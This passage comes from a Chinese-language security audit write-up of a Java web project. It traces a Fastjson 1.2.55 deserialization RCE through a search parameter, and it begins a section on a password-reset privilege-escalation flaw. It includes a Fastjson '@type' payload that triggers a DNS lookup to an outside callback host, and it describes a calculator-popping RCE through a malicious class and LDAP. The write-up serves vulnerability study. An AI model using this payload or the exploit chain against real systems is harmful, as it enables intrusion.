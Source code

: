 ### 5. Fastjson 反序列化 RCE

因为在项目中`Fastjson`版本是 1.2.55，存在 RCE 的漏洞，这里反序列化的地方很多，我们要去找的地方一定是要输入可控的。

这里我思考了一下，应该直接去找关于`search`的，也就是和上面 SQL 注入的一样，全局搜索`parseObject`，找到了`StringUtil`这个工具类

![parseObject.png](https://image.3001.net/images/20221018/1666070200_634e36b8c66db66465880.png!small)

它的`getInfo()`方法中，是存在一个`parseObject()`反序列化的语句，我们接下来去找谁调用了`StringUtil.getInfo()`

![getInfoUsages.png](https://image.3001.net/images/20221018/1666070201_634e36b9c55719969ef80.png!small)

- 这一个`UserComponent.getUserList()`其实和我们之前在 SQL 注入漏洞里面看到的是一样的，所以对于攻击来说，我们依旧可以把它作为攻击的入口。

构造一个 URLDns 的请求，payload 如下

```
search={"@type":"java.net.Inet4Address","val":"xtuit14cnmcrndt2043mwlxoafg74w.oastify.com"}
```

发包如图

![fastjsonBag.png](https://image.3001.net/images/20221018/1666070202_634e36bab45af3e952a87.png!small)

收到了 DNS 请求

![FastjsonDNS.png](https://image.3001.net/images/20221018/1666070204_634e36bc935c63cbec678.png!small)

- 证明存在 Fastjson 漏洞，然后我们进一步构造 payload，进行弹 shell 实践。

这里对 jdk 版本是要低一些，并且要先开启`AutoTypeSupport`

![checkAutoType.png](https://image.3001.net/images/20221018/1666070205_634e36bd57c90f5480a2a.png!small)

师傅们可以现在本地进行测试。

先开启恶意`.class`和 Ldap

![OpenCalc.png](https://image.3001.net/images/20221018/1666070206_634e36be1d7666108d787.png!small)

弹计算器成功

![SuccessFastjson.png](https://image.3001.net/images/20221018/1666070207_634e36bf1fa9747eca88e.png!small)

#### 漏洞修复

- 我个人认为这里并不算漏洞，因为并未开启`checkAutoType`

### 6. 越权漏洞

#### 越权密码重置

对应这里，先去看它的接口

![updateUserController.png](https://image.3001.net/images/20221018/1666070208_634e36c02bc7d50502ce7.png!small)

发现这个业务逻辑的代码是写在 Service 层里面的，跟进一下 Service 层的代码
